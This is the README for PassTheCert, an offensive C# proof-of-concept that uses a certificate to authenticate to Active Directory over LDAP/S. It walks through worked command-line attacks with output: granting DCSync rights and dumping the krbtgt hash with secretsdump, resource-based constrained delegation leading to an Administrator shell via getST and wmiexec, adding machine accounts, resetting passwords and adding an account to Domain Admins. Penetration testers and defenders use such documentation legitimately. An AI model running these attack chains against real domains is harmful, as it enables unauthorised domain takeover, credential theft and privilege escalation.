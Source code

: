 # PassTheCert C#

## Presentation

This tool is a C# Proof-of-Concept allowing an attacker to use a certificate
to authenticate to an LDAP/S server through Schannel.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

## Building

Simply build the solution with Visual Studio.

## Usage

Here are the general options for `PassTheCert`. Attack specific options are
given below.

```console
C:\> .\PassTheCert.exe --help
PassTheCert.exe [--help] --server DOMAIN_CONTROLLER [--start-tls] --cert-path CERT_PATH [--cert-password CERT_PASSWORD] (--elevate|--rbcd|--add-computer) [ATTACK_OPTIONS]
GENERAL OPTIONS:
        --server DOMAIN_CONTROLLER
                Domain controller to connect to. By default, connection will be done over TCP/636 (LDAPS).
        --start-tls
                Indicates that connection should instead be done over TCP/389 (LDAP) and then use StartTLS.
        --cert-path CERT_PATH
                Path to the certificate to authenticate with.
        --cert-password CERT_PASSWORD
                Password to the certificate (Optional argument. Default value: <empty>).

ATTACK TYPE:
        --whoami
                Query LDAP whoami to check if strict validation is being checked
        --elevate
                Elevate the rights of a user on the domain. Will grant DS-Replication-Get-Changes and DS-Replication-Get-Changes-All rights.
        --rbcd
                Adds an SID to the msDS-AllowedToActOnBehalfOfOtherIdentity arttribute of the target.
        --add-computer
                Add a new computer to the domain (useful for RBCD attacks).
        --reset-password
                Reset the password of the targeted account (requires the User-Force-Change-Password right).
```

### Whoami

There's no options for this attack. Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --whoami
Querying LDAP As : u:CONTOSO\skywalker
```

### Elevate user

The options for this attack are:

```
ELEVATE ATTACK OPTIONS: --target TARGET (--sid SID|--restore RESTORE_FILE)
        --target TARGET
                Target of the attack. Should be the distinguished name of the domain.
        --sid SID
                SID to elevate.
        --restore RESTORE_FILE
                File from which to restore the msDS-nTSecurityDescriptor attribute.
                You can use --restore clear to clear the attribute.
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\exchange_server.pfx --elevate --target "DC=contoso,DC=com" --sid S-1-5-21-863927164-4106933278-53377030-2627
nTSecurityDescriptor attribute exists. Saving old value to disk.
You can restore it using arguments:
        --target "DC=contoso,DC=com" --restore DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt
Success
```

You can see that the previous value of `nTSecurityDescriptor` was saved to a
file. **Do not lose it** so that you can restore the previous value once your
attack is done.

You can now perform DCSync with the account with SID `S-1-5-21-863927164-4106933278-53377030-2627`:

```console
$ secretsdump.py -just-dc-ntlm -just-dc-user krbtgt "contoso.com/stormtroopers:$PASSWORD@srv-ad.contoso.com"
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:201b0450d2fba51c****************:::
[*] Cleaning up...
```

To restore the previous `nTSecurityDescriptor` on the domain object, use the
command given by the tool:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --elevate --target "DC=contoso,DC=com" --restore '.\DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt'
Restoring nTSecurityDescriptor attribute from file .\DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt.
Success
```

### RBCD

The options for this attack are:

```
RBCD ATTACK OPTIONS: --target TARGET (--sid SID|--restore RESTORE_FILE)
        --target TARGET
                Target of the attack. Should be the distinguished name of the computer.
        --sid SID
                SID to grant RBCD rights to.
        --restore RESTORE_FILE
                File from which to restore the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
                You can use --restore clear to clear the attribute.
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\srv-ad.pfx --rbcd --target "CN=SRV-AD,OU=Domain Controllers,DC=contoso,DC=com" --sid S-1-5-21-863927164-4106933278-53377030-3131
msDS-AllowedToActOnBehalfOfOtherIdentity attribute is empty
You can clear it using arguments:
        --target "CN=SRV-AD,OU=Domain Controllers,DC=contoso,DC=com" --restore clear
Success
```

You can now perform an [RBCD attack](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
against the target:

```console
$ getST.py -spn "cifs/srv-ad.contoso.com" -impersonate Administrateur "contoso.com/desktop-1337$:$PASSWORD"
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrateur
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrateur.ccache
$ export KRB5CCNAME=Administrateur.ccache
$ wmiexec.py -k -no-pass contoso.com/Administrateur@srv-ad.contoso.com                                                            
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
contoso\administrateur
```

Similar to the [Elevate attack](#elevate-user) attack, you have a `--restore`
option to restore the previous value of the `msDS-AllowedToActOnBehalfOfOtherIdentity`
attribute of the target. If the previous value is not empty, it will be saved
to disk. It if was empty, you can use ``--restore clear` to restore the
attribute to its empty value.

### Add computer

The options for this attack are:

```
ADD COMPUTER ATTACK OPTIONS: --computer-name COMPUTER_NAME [--computer-password COMPUTER_PASSWORD]
        --computer-name COMPUTER_NAME
                The name of the computer to add.
        --computer-password COMPUTER_PASSWORD
                The password of the new computer (Optional argument. Default value: <random value>).
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\stormtroopers.pfx --add-computer --computer-name DESKTOP-1337$ --computer-password "P@ssword01"
Success
```

If no password is provided, a random one will be generated:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\stormtroopers.pfx --add-computer --computer-name DESKTOP-1337$
No password given, generating random one.
Generated password: hqMELrSZXLyOQ1KGLQQoxE7LM78dU9Mb
Success
```

### Reset password

The options for this attack are:

```
RESET PASSWORD ATTACK OPTIONS: --target TARGET [--new-password NEW_PASSWORD]
        --target TARGET
                Target of the attack. Should be the distinguished name of the account.
        --new-password new_PASSWORD
                The new password of the account (Optional argument. Default value: <random value>).
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --reset-password --target "CN=Stormtroopers,OU=Empire,OU=Utilisateurs,DC=contoso,DC=com" --new-password P@ssword01
Success
```

If no password is provided, a random one will be generated:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --reset-password --target "CN=Stormtroopers,OU=Empire,OU=Utilisateurs,DC=contoso,DC=com"
No password given, generating random one.
Generated password: m6QQ3OfbULmyiwBsNJS9NzvlVER8rWj7
Success
```

### Add account to group

The options for this attack are:

```
ADD ACCOUNT TO GROUP ATTACK OPTIONS: --target TARGET --account ACCOUNT
        --target TARGET
                Target of the attack. Should be the distinguished name of the group.
        --account ACCOUNT
                The account added to the group. Should be the distinguished name of the account.
```

Here's an example of usage:
```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=contoso,DC=com" --account "CN=simple_user,CN=Users,DC=contoso,DC=com"
Success
```
